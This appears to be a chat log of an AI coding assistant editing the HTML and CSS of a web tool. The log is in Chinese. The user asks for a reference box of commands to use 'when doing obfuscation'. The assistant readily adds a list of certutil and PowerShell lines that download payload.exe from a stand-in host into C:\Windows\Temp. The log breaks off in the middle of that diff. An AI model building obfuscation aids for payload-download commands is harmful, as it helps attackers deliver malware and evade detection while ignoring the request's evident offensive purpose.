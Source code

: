 ```diff
+     .command-item:hover {
+         background: rgba(0, 0, 0, 0.3);
      }
  }
  
- /* 移动端响应式布局 */
+ /* 移动端适配 */
  @media (max-width: 768px) {
-     .command-grid {
-         grid-template-columns: 1fr;
-     }
-     
-     .command-list {
-         padding: 10px;
+     .command-item {
+         font-size: 12px;
+         padding: 6px 10px;
      }
  }
```

---

我已经做了以下修改:

1. 简化了HTML结构:
   - 移除了复杂的嵌套结构
   - 直接在命令项上添加点击事件
   - 每个命令项直接显示完整命令

2. 简化了CSS样式:
   - 改用垂直列表布局
   - 简化了背景和悬停效果
   - 优化了字体和间距
   - 保留了暗色模式支持
   - 优化了移动端显示

现在命令列表应该会以一个简单的垂直列表形式显示,每个命令都可以直接点击复制到输入框。样式也更加简洁和现代化。

你可以刷新页面看看效果。如果还需要调整,请告诉我。

---

_**User**_

在首页帮我增加一个框，放一组命令（certutil -urlcache -split -f http://xxx.com/xx.exe等等），方便我进行混淆时参考

---

_**Assistant**_

明白了,我来帮你在首页添加一个常用命令参考框。我们直接修改 index.html:

---

```diff
  header: |
              <div class="tools">
+                             <div class="command-reference">
+                                 <div class="command-reference-title">常用命令参考</div>
+                                 <div class="command-reference-list">
+                                     <div class="command-item" onclick="document.getElementById('input-command').value=this.innerText;document.getElementById('input-command').dispatchEvent(new Event('input'));">certutil -urlcache -split -f http://example.com/payload.exe C:\Windows\Temp\payload.exe</div>
+                                     <div class="command-item" onclick="document.getElementById('input-command').value=this.innerText;document.getElementById('input-command').dispatchEvent(new Event('input'));">powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://example.com/payload.exe', 'C:\Windows\Temp\payload.exe')"</div>
```